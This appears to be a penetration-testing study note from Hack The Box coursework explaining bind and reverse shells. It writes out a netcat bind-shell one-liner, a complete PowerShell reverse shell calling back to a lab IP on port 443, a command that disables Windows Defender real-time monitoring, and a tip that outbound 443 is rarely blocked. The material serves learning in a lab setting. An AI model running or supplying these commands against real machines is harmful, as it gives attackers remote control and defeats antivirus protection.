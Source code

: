 # 🤹‍♂️ Shell Basics

We can also find out what shell language is in use by viewing the environment variables using the `env` command

## Bind Shells

<figure><img src="../../../.gitbook/assets/image (1445).png" alt=""><figcaption><p>we  connect directly with the <code>IP address</code> and <code>port</code> listening on the target.</p></figcaption></figure>

Let's say this is the target and it's listening on a random port ->

```shell-session
Target@server:~$ nc -lvnp 7777
```

To connect to this target ->

```shell-session
ElFelixi0@htb[/htb]$ nc -nv 10.129.41.200 7777
```

This will not spawn a shell, it's just a Netcat TCP session we have established

To pop a shell we will need to specify the `directory`, `shell`, `listener`, work with some `pipelines`, and `input` & `output` `redirection` to ensure a shell to the system gets served when the client attempts to connect.

Binding shell to TCP session ->

```shell-session
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

And then if we connect to our target ->

```shell-session
ElFelixi0@htb[/htb]$ nc -nv 10.129.41.200 7777

Target@server:~$  
```

## Reverse Shells

<figure><img src="../../../.gitbook/assets/image (1446).png" alt=""><figcaption><p>With a <code>reverse shell</code>, the attack box will have a listener running, and the target will need to initiate the connection.</p></figcaption></figure>

So we will start by listening on our attackbox ->

```shell-session
ElFelixi0@htb[/htb]$ sudo nc -lvnp 443
```

It would be rare to see any security team blocking 443 outbound since many applications and organizations rely on HTTPS to get to various websites throughout the workday. That said, a firewall capable of deep packet inspection and Layer 7 visibility may be able to detect & stop a reverse shell going outbound on a common port because it's examining the contents of the network packets, not just the IP address and port.

On our target we can type in the following command ->

```cmd-session
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

If we have an error message such as ->

```cmd-session
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

The `Windows Defender antivirus` (`AV`) software stopped the execution of the code.

**Disable AV**

```powershell-session
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

And if we execute the code again we should see this on our attackbox ->

```shell-session
ElFelixi0@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student
```

<figure><img src="../../../.gitbook/assets/image (1447).png" alt=""><figcaption></figcaption></figure>
